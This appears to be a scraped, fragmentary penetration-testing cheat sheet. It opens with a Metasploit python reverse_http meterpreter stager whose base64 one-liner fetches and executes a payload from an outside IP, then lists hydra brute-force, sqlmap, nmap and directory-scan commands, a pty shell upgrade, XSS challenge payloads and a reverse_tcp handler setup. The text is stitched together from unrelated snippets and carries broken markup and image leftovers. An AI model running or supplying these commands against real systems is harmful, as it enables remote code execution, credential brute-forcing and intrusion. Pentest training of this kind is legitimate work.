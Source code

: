 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)

<pre>sshuttle -vr user@192.168.207.57 180.46.0.0/16</pre>

![shuttle2](https://user-images.githubusercontent.com/7115563/34785498-a0b5c8c0-f631-11e7-8f3d-75e0ade96275.png) Proof: ![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png) Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/</port></user></ip></ip></ip></ip></ip></ip></ip></ip></port></ip>

Download from apache directory list
wget -m -np http://eamos.pf.jcu.cz/amos/kat_inf/externi/

$ nmap -p- -oA nmap.tcp 192.168.66.129
$ nmap -sU -p- -oA nmap.udp 192.168.66.129

$ ./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -e php -u 192.168.66.129

$ python -c `import pty; pty.spawn("/bin/sh")`
$ stty raw -echo

LinEnum.sh
linuxprivchecker.py
unixprivesc.sh


  ./dirsearch.py -u http://88.198.233.174:42272 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -r

  sqlmap -r /tmp/req.txt -v -a --level 4 --risk 3

hydra 88.198.233.174 -s 42159 http-form-post "/index.php:password=^PASS^:Invalid password!" -l '' -P /usr/share/wordlists/seclists/Passwords/rockyou-75.txt -t 10 -w 30 -o hydra-http-post-attack.txt

nmap -sS -A -PN -p- --script=http-title dontscanme.bro

hydra 88.198.233.174 -s 42181 http-form-post "/main/index.php:name1=^USER^&name2=^PASS^:Wrong Credentials baby!" -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/seclists/Passwords/rockyou-75.txt -t 10 -w 30 -o /tmp/hydra-http-post-attack.txt


http://185.45.192.228/xssChall/1.php?xss=%27;alert(String.fromCharCode(88,83,83))//%27;alert(String.fromCharCode(88,83,83))//%22;alert(String.fromCharCode(88,83,83))//%22;alert(String.fromCharCode(88,83,83))//--%3E%3C/SCRIPT%3E%22%3E%27%3E%3CSCRIPT%3Ealert(String.fromCharCode(88,83,83))%3C/SCRIPT%3E
http://185.45.192.228/xssChall/2.php?xss=images.jpeg%27onmouseover=%22alert(%27xxs%27)%22
http://185.45.192.228/xssChall/3.php?xss=<script>window.onload=function(){eval(window.atob('ZXZhbChhbGVydCgxKSk7Cg=='))}</script>


http://185.45.192.228/xssChall/5.php?xss=%22onmousemove=%22window[%27al\u0065rt%27](1337)%22

http://185.45.192.228/xssChall/6.php?xss=%27%3Cscript%3Ewindow.onload=function(){window[%27al\u0065rt%27](1337)}%3C/script%3E


gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.27 -x '.php' -e -t 25

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.27   -e -t 25


use exploit/multi/handler
set PAYLOAD  php/meterpreter/reverse_tcp
```